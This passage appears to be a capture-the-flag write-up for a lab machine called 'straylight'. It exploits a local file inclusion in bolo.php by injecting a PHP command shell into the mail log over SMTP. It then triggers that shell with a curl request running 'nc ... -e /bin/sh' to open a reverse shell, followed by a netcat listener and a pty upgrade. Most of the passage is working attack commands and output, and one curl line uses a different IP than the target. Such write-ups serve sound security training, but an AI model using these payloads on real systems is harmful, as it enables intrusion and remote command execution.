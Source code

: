 Mmmm...LFI? It seems that the php file is appending the extension ".log" at the end of the file.  
  
http://192.168.148.5/turing-bolo/case  
http://192.168.148.5/turing-bolo/bolo.php?bolo=/var/www/html/turing-bolo/case  
  
It is in fact a LFI, but we are not able to access any file, just the ones we already know of. It doesn't work adding the null byte (%00) either. Doing a little bit of research, we notice that the smtp logs are being stored in /var/log/mail.log. Bingo!  
  
http://192.168.148.5/turing-bolo/bolo.php?bolo=/var/log/mail  
>...  
>Jul 1 19:10:42 straylight postfix/postfix-script[1782]: stopping the Postfix mail system Jul 1 19:10:42 straylight postfix/master[716]: terminating on signal 15 Jul 1 19:10:43 straylight postfix/postfix-script[1945]: starting the Postfix mail system Jul 1 19:10:43 straylight postfix/master[1947]: daemon started -- version 3.1.8, configuration /etc/postfix Jul 3 20:26:50 straylight postfix/postfix-script[732]: starting the Postfix mail s  
>...  
  
  
### BASIC SHELL  
  
Now we just have to inyect a php shell into this log file. We  
  
root@kali:~# telnet 192.168.148.5 25  
>Trying 192.168.148.5...  
>Connected to 192.168.148.5.  
>Escape character is '^]'.  
>220 straylight ESMTP Postfix (Debian/GNU)  
>EHLO straylight  
>...  
>MAIL FROM:"<?php if(isset($_REQUEST['cmd'])){ echo '<pre>';$cmd = ($_REQUEST['cmd']);system($cmd);echo '</pre>';die;}?>"  
>250 2.1.0 Ok  
>RCPT TO:root  
>250 2.1.5 Ok  
>data  
>354 End data with <CR><LF>.<CR><LF>  
>asdf  
>.  
>250 2.0.0 Ok: queued as 5129D54D7  
>quit  
>221 2.0.0 Bye  
>Connection closed by foreign host.  
  
Now we set up a listener and make an HTTP request to the /var/log/mail.log file with the parameter cmd connecting to our machine:  
  
curl "http://192.168.148.4/turing-bolo/bolo.php?bolo=/var/log/mail&cmd=nc+192.168.148.3+4444+-e+/bin/sh"  
  
root@kali:~# nc -nvlp 4444  
>listening on [any] 4444 ...  
>connect to [192.168.148.3] from (UNKNOWN) [192.168.148.5] 44164  
>id  
>uid=33(www-data) gid=33(www-data) groups=33(www-data)  
>hostname  
>straylight  
>uname -a  
>Linux straylight 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07) x86_64 GNU/Linux  
>python -c 'import pty;pty.spawn("/bin/bash")'  
www-data@straylight:/var/www/html/turing-bolo$  
  
